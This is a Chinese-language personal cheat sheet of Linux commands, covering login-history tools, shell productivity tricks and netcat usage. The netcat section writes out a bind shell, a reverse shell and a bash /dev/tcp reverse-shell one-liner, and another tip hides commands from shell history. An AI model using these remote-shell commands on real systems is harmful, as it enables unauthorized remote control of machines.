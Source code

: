 # 命令笔记

## 系统相关



## 日志相关



## 安全相关

- `w -u`：查询当前当前用户和所运行的程序等信息，类似命令`whoami`或者`who am i`；
- `last`：显示用户最近登录信息。如果没有指定任何参数，则显示所有用户的历史信息。在默认情况下，这些所显示的信息将来源于` /var/log/wtmp `文件；
- `lastlog`：用于查看系统中每个用户最后的登录时间，指定用户使用`-u`选项，指定最近几天的记录，使用`-t`选项；

## 工作效率

- `fc`：用于编辑最后一条命令并保存之后自动执行该命令，应用场景，运行了一大段命令但因为一个符号或者字母输错导致命令失败，快速编辑；
- `disown -a `：将任务从"后台任务"列表(jobs命令的返回结果)之中移除,阻止当前 shell 在终止登录会话时向每个指定作业发送 HUP 信号（为啥我Ubuntu18不能用？）；
- `Ctrl + X + E`终端快捷键：打开编辑器输入命令并自动执行该命令，应用场景，一次运行多条长命令（若果运行时发生报错或者其他问题，需要在`/etc/bashrc`中添加变量`EDITOR=vim`即可）；
- `命令前加空格`：隐藏所运行的命令，使其不被记录到历史命令中（6，一直没发现）；
- `!!`：调用最近一次命令（感觉没什么卵用）；
- ` find ./ -type f -delete`: 删除大量文件，要比直接使用`-exec rm -rf {} \;`要快很多，另外，使用`rsync -a --delete <FILE_LIST>`删除文件会更快，尤其是文件数量巨大时，删除50w的小文件时，rm命令显得那么力不从心. 
- `nc`相关：

```bash
# nc 实现端口扫描
nc -u -z -w2 127.0.0.1 1-1000  # 扫描范围是 1-1000
nc -nvv 127.0.0.1 80 # 扫描80端口

# nc 实现文件传输
# 接收方提前设置监听端口与要接收的文件名（文件名可自定义）：
nc -lp 8888 > node.tar.gz
# 传输方发文件：
nc -nv 192.168.75.121 8888 -i 1 < node_exporter-1.3.1.linux-amd64.tar.gz
# ⚠️ 注意：-i 表示闲置超时时间

# nc 实现远程控制
# 正向控制，被控端主动设置监听端口及bash环境，控制端连接，如果有防火墙，需开放端口，否则会被拦截。
# 被控制端执行下面的命令：
nc -lvnp 8888 -c bash
# 控制端执行下面的命令：
nc 192.168.75.121 8888

# 反向控制，控制端设置监听端口，被控端主动连接控制端的ip及端口，并提供bash环境。
# 控制端执行下面的命令：
nc -lvnp 8888
# 被控制端执行下面的命令：
nc 192.168.75.121 8888 -c bash

# 反弹shell
# 控制端执行下面的命令：
nc -lvnp 8888
# 被控端执行下面的命令:
bash -i &> /dev/tcp/192.168.75.121/8888 0>&1
```

